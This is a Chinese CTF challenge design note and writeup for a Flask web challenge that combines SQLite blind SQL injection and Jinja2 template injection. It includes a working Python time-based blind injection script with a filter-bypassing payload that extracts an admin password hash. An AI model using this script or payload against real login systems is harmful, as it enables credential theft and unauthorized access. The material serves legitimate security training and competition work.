





# 赛题设计说明

## 题目信息：

* 题目名称：不仅仅是个SQL
* 预估难度：中等偏易


## 题目描述：
```
这大概是一个很简单的web题目吧——不仅仅是SQL注入。
```

## 题目考点：
```
1. sql盲注
2. jinja2模板注入
```

## 思路简述：
1. 通过SQL盲注获取admin用户的账户密码
1. 使用admin用户登陆到达欢迎界面
1. 利用jinja2模板注入漏洞获取位于web根目录下的flag.txt中的flag


## 题目提示：
1. robots.txt中的sql语句执行逻辑
1. 登陆成功后界面源码中的flag路径提示
1. 登陆成功界面中的图片暗示


## 原始 flag 及更新命令：

```shell
    # 原始 flag
    flag{flag_test}
    # ..
    # 更新 flag 命令
    echo 'flag{85c2a01a-55f7-442a-8712-3f6908e1463a}' > /flag
```


## 题目环境：
```
1. Ubuntu 16.04 LTS(phusion/baseimage)
2. nginx (apt源默认版本)
3. python3 (3.5.x apt源默认版本)
4. uwsgi
5. flask
```

## 题目制作过程：
1. 设计好漏洞，前端框架以及后端代码
2. 按照“Docker示例文档.md”来编写Dockerfile，制作好镜像，调试测试运行。

## 题目writeup：

1. 访问robots.txt 获得提示：
    * 后台为python
    * 采用了sqlite数据库，并且对用户输入进行了过滤
    * 数据库内存储了密码的md5(32位)计算结果


1. 因为登陆界面提供任何回显，所以猜测这里需要盲注
1. 使用sqlite3的基于 ```randomblob()``` 函数的盲注
1. 经过多次尝试发现后端过滤小写的select，from等关键词以及空格，于是采用如图格式注入
1. 编写如下python脚本执行盲注
    ```
    def sqlpw(url):
    session=requests.Session()
    params={"password":"0"}
    password=""
    for i in range(32):
        for x in "0123456789abcdefghijklmnopqrstuvwsyz":
            try:
                username="admin'AND(SELECT(hex(substr(password,{},1)))FROM(users))=hex('{}')AND(randomblob(1000000000))--".format(i+1,x)
                params['username']=username
                # print(params)
                r=session.post(url,data=params,timeout=1)
                # print(r.status_code)
            except exceptions.Timeout:
                password=password+x
                logging.info(password)
                sleep(3)
                break
    return password
    ```
1. 脚本运行结果得到密码的md5值
1. 查找还原密码原文，并利用密码登陆


1. 欢迎界面检查网页源码发现提示flag位于根目录下
1. 依据页面鸟居图片获得提示联想到jinja2的项目[LOGO](./img/4.png)猜测此题为jinjia2模板注入漏洞


1. 从URL注入点username写入测试payload验证漏洞确实存在


1. 经过多次尝试发现注入点过滤方括号，遂构成如图的payload完成注入得到flag

## 注意事项

1. 本项目种所写的python代码，包括check.py，exp.py均基于python3.5+版本，未在python2上运行测试过。
1. Docker镜像构建时请保证源码目录下的目录结构不变。